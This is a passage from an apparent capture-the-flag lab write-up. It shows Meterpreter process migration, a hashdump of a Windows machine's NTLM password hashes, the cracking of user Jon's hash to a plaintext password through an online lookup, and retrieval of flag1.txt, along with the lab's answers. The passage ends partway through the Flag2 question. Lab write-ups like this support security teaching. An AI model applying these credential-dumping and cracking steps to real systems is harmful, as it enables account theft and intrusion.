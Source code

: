 ```sh
meterpreter > migrate 2736
[*] Migrating from 1308 to 2736...
[*] Migration completed successfully.
```

## Task 4 Cracking

Q: Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter > 
```

A: Jon

Q: Copy this password hash to a file and research how to crack it. What is the cracked password?

Go to [crackstation.net](https://crackstation.net/)
paste: ffb43f0de35be4d9917ac0cc8ad57f8d

A: alqfna22

## Task 5 Find flags

Q: Flag1? This flag can be found at the system root.

```sh
C:\>dir f*
dir f*
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
               1 File(s)             24 bytes
               0 Dir(s)  20,618,887,168 bytes free

C:\>more flag1.txt
more flag1.txt
flag{access_the_machine}

C:\>
```

A: flag{access_the_machine}

Q: Flag2? This flag can be found at the location where passwords are stored within Windows.
